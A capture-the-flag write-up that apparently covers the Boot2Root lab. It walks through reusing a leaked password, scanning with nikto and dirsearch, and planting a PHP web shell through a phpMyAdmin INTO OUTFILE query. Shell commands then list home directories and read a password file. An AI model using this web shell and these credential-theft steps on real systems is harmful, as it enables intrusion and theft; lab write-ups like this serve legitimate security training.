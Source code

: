 log page on forum : 
```1q\Ej?*5K5cy*AJ```

forum : 
lmezard:1q\Ej?*5K5cy*AJ 	okok

with that we got the user mail :
laurie@born2sec.net

```
nikto -host 10.12.1.108 -port 336
[...]
osvdb-3092: /forum/ : this might be interesting
osvdb-3093: /webmail
/phypmyadmin/: phpmyadmin directory found 
```
so we got a server mail let's try our login:passwd
laurie@born2sec.net:1q\Ej?*5K5cy*AJ
it works ! and we have a mail with root:phpmyadminpasswd

nice but we can/t write on /var/www :/
let's see if we have a writable page on this site..
```
git clone https://github.com/maurosoria/dirsearch.git
python3 dirsearch/dirsearch.py 
[...]
[10:24:08] 301 -  319B  - /forum/images  ->  https://10.12.1.108/forum/images/
[10:24:08] 301 -  321B  - /forum/includes  ->  https://10.12.1.108/forum/includes/
[10:24:08] 200 -    5KB - /forum/includes/
[10:24:08] 200 -    5KB - /forum/index.php
[10:24:08] 200 -    5KB - /forum/index
[10:24:09] 200 -    5KB - /forum/index.php/login/
[10:24:09] 301 -  315B  - /forum/js  ->  https://10.12.1.108/forum/js/
[10:24:09] 301 -  317B  - /forum/lang  ->  https://10.12.1.108/forum/lang/
[10:24:10] 301 -  320B  - /forum/modules  ->  https://10.12.1.108/forum/modules/
[10:24:15] 301 -  324B  - /forum/templates_c  ->  https://10.12.1.108/forum/templates_c/
[10:24:15] 200 -    5KB - /forum/templates_c/
[10:24:15] 301 -  319B  - /forum/themes  ->  https://10.12.1.108/forum/themes/
[10:24:15] 301 -  319B  - /forum/update  ->  https://10.12.1.108/forum/update/
```
hey we can write on /forum/templates_c :D 

in phpMyadmin : 
```
SELECT "<?php system($_GET['cmd']) ?>" 
into outfile "/var/www/forum/templates_c/givemeshell.php"
```

```
curl  https://10.12.1.108/forum/templates_c/givemeshell.php?cmd="id" -k
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
ok we can do some digging 

```
curl  https://10.12.1.108/forum/templates_c/givemeshell.php?cmd="ls%20/home" -k
[...]
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```
```
curl  https://10.12.1.108/forum/templates_c/givemeshell.php?cmd="cat%20/home/LOOKATME/password" -k
[...]
lmezard:G!@M6f4Eatau{sF"
```



